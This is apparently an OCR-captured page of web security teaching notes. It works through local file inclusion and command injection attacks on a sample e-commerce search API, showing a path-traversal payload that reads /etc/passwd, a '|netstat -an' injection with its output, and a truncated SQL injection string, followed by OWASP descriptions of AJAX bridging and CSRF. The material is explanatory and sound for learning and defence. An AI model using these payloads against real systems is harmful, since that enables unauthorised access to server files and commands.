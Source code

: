 ```
    email = 'xyz@example.com'' AND 
    password = 'd5b5fffc89f961903fb3c9a173f1b667'"}}
```

```
--- Local File Inclusion Detection ---
Client:
    A typical e-commerce web application might have following request for searching of products:
    POST data – {“query”:”tv”,”order”:”asc”,”limit”:50}

Attack:
    POST data – {“query”:”/../../../../../../../etc/passwd”,”order”:”asc”,”limit”:50}

Server:
    You search for:
    /../../../../../../../etc/passwd</br>root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
```

```
--- PHP Command Injection Detection ---
Important: 
    The same e-commerce application is vulnerable to command injection vulnerability in the query parameter
Client:
    POST data – {“query”:”|netstat -an “,”order”:”asc”,”limit”:50}

Server:
    You searched for: |netstat -an
    
    Active Internet connections (servers and established)
    Proto  Recv-Q  Send-Q  Local Address     Foreign Address     State
    tcp      0       0     0.0.0.0:22           0.0.0.0:*        LISTEN
    tcp      0       0     127.0.0.1:631        0.0.0.0:*        LISTEN
    tcp      0       0     127.0.0.1:25         0.0.0.0:*        LISTEN
```


**AJAX Bridging**
> For security purposes, AJAX applications can only connect back to the Website from which they come. For example, JavaScript with AJAX downloaded from site1.com cannot make connections to site2.com. To allow AJAX to contact third-party sites in this manner, the AJAX service bridge was created. In a bridge, a host provides a Web service that acts as a proxy to forward traffic between the JavaScript running on the client and the third-party site. A bridge could be considered a 'Web service to Web service' connection. An attacker could use this to access sites with restricted access. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))

**Cross Site Request Forgery (CSRF)**
> CSRF attacks occur when an attacker forces a victim’s web browser to send an HTTP request to any website of his choosing (the intranet is a fair game as well). For example, while reading this post, the HTML/JavaScript code embedded in the web page could have forced your browser to make an off-domain request to your bank, blog, web mail, DSL router, etc. In case such applications are vulnerable, invisibly, CSRF could have transferred funds, posted comments, compromised email lists, or reconfigured the network. A characteristic of CSRF attacks is that the vulnerable application logs' will show what appear as legitimate entries originating from the victim, bearing no trace of the attack. This attack, though not common, has been done before. [OWASP](https://www.owasp.org/index.php/Testing_for_AJAX_Vulnerabilities_(OWASP-AJ-001))
